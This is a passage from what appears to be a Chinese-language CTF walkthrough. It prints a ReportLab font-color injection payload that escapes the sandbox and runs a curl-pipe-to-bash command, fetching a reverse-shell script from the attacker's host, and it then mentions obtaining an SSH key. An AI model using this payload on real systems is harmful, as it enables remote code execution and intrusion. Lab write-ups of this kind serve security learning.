 ```
<para>
    <font color="[ [ getattr(pow,Attacker('__globals__'))['os'].system('curl http://20.20.20.2:8000/shell.sh | bash') for Attacker in [orgTypeFun('
Attacker', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self:
{setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">
    exploit
    </font>
</para>
```

在**drzunder**上面准备一个反弹**shell**的脚本，并且开启**httpserver**服务

![](./images/image-127.png)

得到了**app**用户的**ssh**密钥

![](./images/image-128.png)

该机器上并没有开启**22**端口，需要手动指定为**2222**
